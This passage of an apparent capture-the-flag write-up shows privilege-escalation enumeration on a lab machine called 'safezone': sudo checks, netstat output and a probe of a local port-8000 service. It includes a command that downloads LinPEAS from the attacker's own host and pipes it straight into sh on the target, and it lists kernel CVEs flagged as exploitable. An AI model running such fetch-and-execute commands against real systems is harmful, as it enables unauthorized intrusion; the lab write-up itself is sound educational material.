 As you can see, **we can run `/usr/bin/id` as user `yash` without password!**

**But looks like we can't escalate to `yash` via that:**
```
files@safezone:~$ sudo -u yash /usr/bin/id
uid=1000(yash) gid=1000(yash) groups=1000(yash),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),114(sambashare)
```

**LinPEAS:**
```
┌──(root🌸siunam)-[/usr/share/peass/linpeas]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

files@safezone:~$ curl -s http://10.9.0.253/linpeas.sh | sh
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Potentially Vulnerable to CVE-2022-2588
[...]
```

Kernel exploit... Probably not the intended way to escalate to root.

**Listening port:**
```
files@safezone:~$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.245.138:68         0.0.0.0:*                           -
```

We can see there are 2 services running in localhost. **MySQL (Port 3306) and an unknown service (Port 8000).**

**Let's dig into that unknown service:**
```
files@safezone:~$ curl http://127.0.0.1:8000/
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

